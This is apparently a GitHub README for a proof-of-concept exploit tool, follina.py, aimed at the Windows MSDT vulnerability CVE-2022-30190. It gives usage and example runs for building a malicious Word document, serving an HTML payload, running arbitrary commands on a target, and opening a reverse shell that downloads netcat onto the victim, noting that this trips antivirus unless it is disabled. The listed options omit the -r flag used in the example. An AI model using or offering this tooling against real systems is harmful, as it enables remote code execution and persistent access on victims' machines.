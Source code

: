 # CVE-2022-30190
Microsoft Windows Support Diagnostic Tool RCE   
&nbsp;

## POC
![poc](./poc.png)
&nbsp;

## Usage
```
usage: follina.py [-h] [--command COMMAND] [--output OUTPUT] [--interface INTERFACE] [--port PORT]

options:
  -h, --help            show this help message and exit
  --command COMMAND, -c COMMAND
                        command to run on the target (default: calc)
  --output OUTPUT, -o OUTPUT
                        output maldoc file (default: ./follina.doc)
  --interface INTERFACE, -i INTERFACE
                        network interface or IP address to host the HTTP server (default: eth0)
  --port PORT, -p PORT  port to serve the HTTP server (default: 8000)
```
&nbsp;

# Examples

### Pop calc.exe:
```
$ python3 follina.py   
[+] copied staging doc /tmp/9mcvbrwo
[+] created maldoc ./follina.doc
[+] serving html payload on :8000
```

### Pop notepad.exe:
```
$ python3 follina.py -c "notepad"
```

### Get a reverse shell on port 9001.
```
$ python3 follina.py -r 9001
```
Note, this downloads a netcat binary _onto the victim_ and places it in `C:\Windows\Tasks`. It does not clean up the binary. This will trigger antivirus detections unless AV is disabled.
</br>&nbsp;

## How Does It Works
![poc](./how-work.png)
</br>&nbsp;

## Credit
[JohnHammond](https://github.com/JohnHammond/msdt-follina/blob/main/README.md)'s github page.</br>
[SANS](https://isc.sans.edu/forums/diary/New+Microsoft+Office+Attack+Vector+via+msmsdt+Protocol+Scheme+CVE202230190/28694)'s webpage.</br>
</br>&nbsp;

## Support
You can Follow [me](https://twitter.com/MeAsHacker_HNA) on twitter or buy me a [Coffee](https://buymeacoffee.com/NafisiAslH)
